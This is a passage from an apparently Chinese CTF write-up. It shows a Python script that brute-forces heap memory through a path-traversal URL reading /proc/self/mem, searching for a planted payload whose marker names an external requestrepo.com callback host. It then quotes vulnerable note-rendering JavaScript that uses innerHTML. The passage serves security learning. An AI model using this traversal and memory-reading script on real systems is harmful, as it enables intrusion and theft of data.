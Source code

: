 爆破payload所在的堆块位置：

```python
import requests

heap_start = 0x053d6000
heap_end = 0x0631d000

while heap_start < heap_end:
    burp0_url = f"http://35.243.100.112/..%2f..%2f..%2f..%2f..%2fproc%2fself%2fmem/{heap_start}/{heap_start + 200000}"
    burp0_headers = {"Cache-Control": "max-age=0", "Upgrade-Insecure-Requests": "1", "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.82 Safari/537.36", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9", "Accept-Encoding": "gzip, deflate", "Accept-Language": "en-US,en;q=0.9", "If-None-Match": "W/\"316-SE2umwrLqJpIs0T51/cmKIv1+Tw\"", "Connection": "close"}
    r = requests.get(burp0_url, headers=burp0_headers)
    if ('flag.u5uc8xic.requestrepo.com' in r.text):
        idx = r.text.index('flag.u5uc8xic.requestrepo.com') - 1500
        print(heap_start + idx, heap_start + idx + 2500)
    heap_start += 200000#这个是自己定的范围，多少都行，但是别太小

```

读取一下：发现已经写进去了

![image-20220404144855590](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-15fe78e77da132be6f2fb4fcc8db568b6fd08bf5.png)

访问report触发bot：

![image-20220405084329966](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-3a83eb3716b9b88f00405841198bde3a61676f99.png)

![image-20220404150455985](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-762160419cd7b86b0ee4560a745aed1854bb967b.png)

收到回显：

![image-20220404150443764](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-481212f8d6af3a96fe88fcc7843a1190d318898a.png)

0x05 Haribote Secure Note
=========================

从这个题开始就脑袋就开始懵了

```javascript
    <script nonce="{{ csp_nonce }}">
        const render = notes => {
            const noteArea = document.getElementById("notes");

            notes.sort((a, b) => Date.parse(a.createdAt) - Date.parse(b.createdAt));
            for (const note of notes) {
                const noteDiv = document.createElement("div");
                noteDiv.classList.add("p-2")
                noteDiv.classList.add("bg-light")
                noteDiv.classList.add("border")

                const title = document.createElement("h2");
                title.innerHTML = note.title;
                noteDiv.appendChild(title);

                const content = document.createElement("p");
                content.innerHTML = note.content;
                noteDiv.appendChild(content);

                const createdAt = document.createElement("time");
                createdAt.innerHTML = `Created at: ${note.createdAt}`;
                noteDiv.appendChild(createdAt)
```